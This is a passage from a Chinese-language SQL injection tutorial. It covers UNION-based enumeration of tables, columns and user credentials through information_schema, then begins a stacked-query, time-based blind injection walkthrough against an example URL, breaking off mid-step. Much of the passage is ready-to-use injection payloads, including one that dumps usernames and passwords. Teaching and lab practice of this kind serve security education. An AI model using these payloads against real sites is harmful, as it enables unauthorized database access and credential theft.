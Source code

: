 接下来就是爆表名，字段名，和值了
爆表名的语句

```sql
?id=0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3 --+ 
```

爆字段名的语句

```sql
?id=0' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),3 --+
```

爆值语句

```sql
?id=0' union select 1,2,(select group_concat(concat(id,0x7e,username,0x3A,password,0x7e)) from users) --+	
```

这里都是采用group_concat连接在一起同时输出的方式进行查询，其实也可以通过limit进行逐条输出
`limit m,n `从m条开始，输出n条数据
最后，我们就完成了SQL联合注入。

## 堆叠查询注入

### 堆叠查询注入攻击

堆叠查询注入：堆叠查询可以执行多条SQL语句，语句之间以分号(;)隔开。而堆叠查询注入攻击就是利用此特点，在第二条语句中构造自己要执行的语句。

1）考虑使用堆叠注入

```bash
访问URL:http://www.tianchi.com/web/duidie.php?id=1返回正常信息;

访问URL:http://www.tianchi.com/web/duidie.php?id=1'返回错误信息;

访问URL:http://www.tianchi.com/web/duidie.php?id=1'%23返回正常信息;
```

这里可以使用boolean注入、时间盲注、也可以使用堆叠注入。

2）获取数据库库名

（1）判断当前数据库库名的长度

语句：

```vbnet
';select if(length(database())>=8,sleep(4),1)%23
```

```bash
URL:http://www.tianchi.com/web/duidie.php?id=1';select if(length(database())>=8,sleep(4),1)
```

可以看到页面响应时间是5023毫秒，即5.023秒，这说明了页面执行了`sleep(4)`，也就是`length(database())>=8`成立。使用Burp的Repeater模块如下所示：
